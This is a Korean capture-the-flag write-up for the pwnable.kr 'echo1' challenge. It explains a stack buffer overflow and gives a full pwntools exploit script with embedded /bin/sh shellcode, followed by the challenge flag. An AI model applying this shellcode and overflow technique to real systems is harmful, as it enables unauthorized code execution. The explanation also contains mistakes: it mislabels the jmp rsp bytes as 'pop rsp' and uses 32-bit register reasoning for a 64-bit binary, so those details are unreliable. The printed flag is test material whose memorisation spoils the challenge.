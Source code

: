 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-20-15-35-26.png)


# **Write-Up**

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec echo1
[*] '/root/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

서버에 접속하면 24글자를 name으로 입력받는다.

![](images/2022-01-20-15-41-46.png)

echo type을 선택하라 하고 BOF, FSB, UAF가 있다.

```sh
nc64.exe pwnable.kr 9010
hey, what's your name? : a

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
```

BOF echo에서는 128글자까지 받을 수 있다.

![](images/2022-01-20-15-47-31.png)

그리고 41글자부터 return 주소를 오버라이트 할 수 있다.

![](images/2022-01-20-15-49-53.png)

FSB echo와 UAF echo는 not supported라고 한다.

![](images/2022-01-20-17-08-00.png)

NX bit가 disabled되어 있으므로, shell code를 사용하여 shell을 얻으면 될 것이다.

우선 BOF echo에서 return할 때, POP EIP되면서 RSP + 4가 될테니, BOF echo에서 입력하는 Payload는 다음과 같다.

    Dummy (A * 40byte) + Return Address (8byte) + Shell code (? byte)

문제는 ASLR이 걸려있을 것이니, Shell code의 주소를 알기 어렵다. No PIE인 점을 이용하여 name입력 값이 id에 저장된다는 점을 이용하자.

![](images/2022-01-20-18-02-38.png)

id는 dd(double word = 4byte)의 크기를 가지고 있기 때문에, pop rsp를 이용하여 BOF echo에서 입력한 shell code의 주소로 점프시키자.

![](images/2022-01-20-18-14-31.png)

pop rsp는 \xff\xe4이다.

> [Disassemble]](https://defuse.ca/online-x86-assembler.htm#disassembly)

shell code는 shell storm을 이용하자.

> [shell storm - 27byte /bin/sh](http://shell-storm.org/shellcode/files/shellcode-806.php)

FLAG를 획득하자.

```py
from pwn import *

payload = b'A' * 40
payload += p64(0x6020a0)
payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

r = remote('pwnable.kr', 9010)
r.recvuntil('hey, what\'s your name? : ')
r.sendline("\xff\xe4")
r.recvuntil('> ')
r.sendline('1')
r.recvline()
r.sendline(payload)
r.recvline()
r.recvline()
r.sendline('/bin/sh -c "cat flag"')
print(r.recvline().decode())
```

# **FLAG**

**H4d_som3_fun_w1th_ech0_ov3rfl0w**